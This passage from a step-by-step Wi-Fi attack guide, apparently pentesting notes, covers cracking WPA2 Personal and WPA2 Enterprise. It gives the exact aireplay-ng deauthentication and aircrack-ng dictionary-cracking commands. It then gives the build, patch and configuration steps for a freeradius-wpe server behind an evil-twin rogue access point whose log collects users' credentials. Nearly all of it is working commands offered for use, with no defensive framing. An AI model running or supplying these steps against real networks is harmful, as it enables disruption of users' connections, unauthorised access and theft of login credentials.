 
2. Cracking WPA2 Personal.
   a.	Follow the steps a-g, as shown in the WEP Cracking.
   b.	Deauthenticate the connected user to capture the WPA 4 way handshake, in which WPA keystream is present.
      `aireplay-ng -0 1 –a <AP Mac> -c <Client Mac> wlan0`
   c.	Note the airodump-ng output to check if the WPA Handshake is captured.
   d.	Once the WPA handshake is captured, crack the password using aircrack-ng dictionary attack.
      `aircrack-ng <captured file> -w <Dictionary file>`


3. Cracking WPA2 Enterprise.

- Setting up Radius Server:
    a.	Download the freeradius server package and WPE support patch for freeradius server from the following links.
      •	`wget ftp://ftp.freeradius.org/pub/radius/old/freeradius-server-2.1.12.tar.bz2`
      •	`wget https://raw.github.com/brad-anton/freeradius-wpe/master/freeradius-wpe.patch`
    b.	Untar the source package using the below command:
      •	`tar -jxvf freeradius-server-2.1.12.tar.bz2`
    c.	Apply the patch to the source package:
      •	cd freeradius-server-2.1.12/
      •	patch -p1 < ../freeradius-wpe.patch
    d.	Now the freeradius is ready to be installed. Follow the below commands step by step to install.
      `./configure
      	Make
      	make install
      	ldconfig`  
    e.	Create certs:
      	`cd /usr/local/etc/raddb/certs/
      	./bootstrap`
    f.	Configure Freeradius to listen on ur IP and configure other settings by editing the following  file.
        `/usr/local/etc/raddb/clients.conf`
        *Add below config: (note u can give ur IP subnet here.*
          `client 192.168.1.0/24 {
            secret = password
          }
	         /usr/local/etc/raddb/eap.conf`
        *set the value of the below parameter to peap*
          `default_eap_type = peap`
    g.	Start Radius server :
          - radiusd -X
    h.	View the below logs for user credentials
          `/usr/local/var/log/radius/freeradius-server-wpe.log`
    i.	You can also follow this link to setup freeradius:
        •	http://resources.infosecinstitute.com/attacking-wpa2-enterprise/

- Setting up Evil Twin Rouge Access Point:
    a.	Connect your wireless router using lan and open the admin page to configure the AP. Ensure Wireless Lan IP is assigned to the kali lan interface.
    b.	Set the SSID of the AP as the one which you want to attack.
    c.	Set the Privacy to WPA2 Enterprise.
    d.	Encryption to AES.
    e.	In Radius server configuration, provide the IP and port of the radius server. Provide the password to connect the AP with the radius server.
    f.	Save the settings. Evil Twin Rogue AP is ready to be used.
